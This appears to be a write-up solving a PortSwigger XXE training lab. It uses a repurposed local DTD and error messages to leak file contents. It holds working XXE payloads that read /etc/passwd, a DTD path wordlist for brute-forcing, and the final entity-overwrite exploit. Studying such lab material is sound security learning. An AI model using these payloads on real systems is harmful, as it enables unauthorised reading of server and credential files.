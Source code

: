 # Lab-09 Description :

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/c376d8d9-e800-4e8d-ba2c-92d96b6edcb2)

## Overview :

The preceding technique [using external entities to retreive data by inducing error messages] works fine with an external DTD, but it won't normally work with an internal DTD that is fully specified within the DOCTYPE element. This is because the technique involves using an XML parameter entity within the definition of another parameter entity. **As  per the XML specification, this is permitted in external DTDs but not in internal DTDs. (Some parsers might tolerate it, but many do not.)** 

In blind XXE vulnerabilities when out-of-band interactions are blocked, You can't exfiltrate data via an out-of-band connection, and you can't load an external DTD from a remote server.

In such cases we can perform the following steps,

1. Find any local DTD's present in the server.
2. Redefine/Overwrite the entity in a local DTD file found with a payload to retreive `/etc/passwd`.
3. Induce an error in the payload (non-existent resource) , so that in the response we get the error along with the contents of /etc/passwd.

> Payload - https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XXE%20Injection/README.md#windows-local-dtd-and-side-channel-leak-to-disclose-http-responsefile-contents

## Solution :

Clicking on checkstock feature sends the following request,

```xml
POST /product/stock HTTP/2
Host: 0a2600c803d5054782fe938700bd00e8.web-security-academy.net
Cookie: session=wDrayLHAxtyDwXHTFHEpvEYW5kFaS3zu
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:106.0) Gecko/20100101 Firefox/106.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://0a2600c803d5054782fe938700bd00e8.web-security-academy.net/product?productId=2
Content-Type: application/xml
Content-Length: 107
Origin: https://0a2600c803d5054782fe938700bd00e8.web-security-academy.net
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Te: trailers

<?xml version="1.0" encoding="UTF-8"?>
<stockCheck>
  <productId>2</productId>
  <storeId>1</storeId>
</stockCheck>
```

#### Identify which  local DTD is present on the server -

First let's declare a DOCTYPE with an external entity pointing to a **file that actually exist** 

- `<!DOCTYPE example [<!ENTITY % file SYSTEM "file:///etc/passwd"> %file;]>`


We get this XML parsing error in response.

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/b0d4f2dd-0d32-47db-a57d-228e83804983)


What if we gave an **non-existent file** ? with a modification in the DOCTYPE 

- `<!DOCTYPE example [<!ENTITY % file SYSTEM "file:///doesnotexist"> %file;]>`

This time we get a **File not found error**.

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/1e2e51e7-2b29-4d58-a08b-5b22d6772508)


With this information that we've enumerated, we can bruteforce the files with a list of known and available DTD's to find which DTD's exist and which do not.

> Reference -
>
> Blog post on repurposing a DTD - https://www.gosecure.net/blog/2019/07/16/automating-local-dtd-discovery-for-xxe-exploitation/

```bash
./properties/schemas/j2ee/XMLSchema.dtd
./../properties/schemas/j2ee/XMLSchema.dtd
./../../properties/schemas/j2ee/XMLSchema.dtd
/usr/share/java/jsp-api-2.2.jar!/javax/servlet/jsp/resources/jspxml.dtd
/usr/share/java/jsp-api-2.3.jar!/javax/servlet/jsp/resources/jspxml.dtd
/root/usr/share/doc/rh-python34-python-docutils-0.12/docs/ref/docutils.dtd
/root/usr/share/doc/rh-python35-python-docutils-0.12/docs/ref/docutils.dtd
/usr/share/doc/python2-docutils/docs/ref/docutils.dtd
/usr/share/yelp/dtd/docbookx.dtd
/usr/share/xml/fontconfig/fonts.dtd
/usr/share/xml/scrollkeeper/dtds/scrollkeeper-omf.dtd
/usr/lib64/erlang/lib/docbuilder-0.9.8.11/dtd/application.dtd
/usr/share/boostbook/dtd/1.1/boostbook.dtd
/usr/share/boostbook/dtd/boostbook.dtd
/usr/share/dblatex/schema/dblatex-config.dtd
/usr/share/struts/struts-config_1_0.dtd
/opt/sas/sw/tomcat/shared/lib/jsp-api.jar!/javax/servlet/jsp/resources/jspxml.dtd
```

- Send the request to Intruder & add the `file:///`  position to bruteforce.

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE example [<!ENTITY % file SYSTEM "file://§/donotexist§"> %file;]>
 <stockCheck>
  <productId>2</productId>
  <storeId>1</storeId>
 </stockCheck>
```

- Add payload as list of these DTD's to bruteforce to find which of the DTD's which are existing

- Uncheck the  `URL encode characters` option

- ![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/d6b1d583-2242-418c-9fc0-6463ab2f50fe)

Start attack.

From the result , we can see that only 2 DTD's are present on the server

- `/usr/share/yelp/dtd/docbookx.dtd`
- `/usr/share/xml/fontconfig/fonts.dtd`

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/0b3e525d-ece8-4f40-bb78-0872924cb12f)


Now we need to find what entities are defined in that particular DTD to overwrite them. For this we have to search online & do some research.

For the sake of completing this lab & not wasting time, we have been given the name of the entitiy which is `ISOamso`.

#### Overwriting the entitiy in docbookx.dtd -

This payload below overwrites the `ISOamso` entity in the local DTD named `docbookx.dtd` with the contents of `/etc/passwd`.

Then it uses an external entity to retreive an nonexistent file which then induces an error. So we will get the error and the contents of /etc/passwd in the response.

```xml
<!DOCTYPE message [
<!ENTITY % local_dtd SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd">
<!ENTITY % ISOamso '
<!ENTITY &#x25; file SYSTEM "file:///etc/passwd">
<!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file;&#x27;>">
&#x25;eval;
&#x25;error;
'>
%local_dtd;
]>
```

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/4266ebd5-327c-42c7-aa08-899193a3ac50)


Thus we've solved the lab.

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/676da997-eb39-42fa-a258-eb3c9100603e)








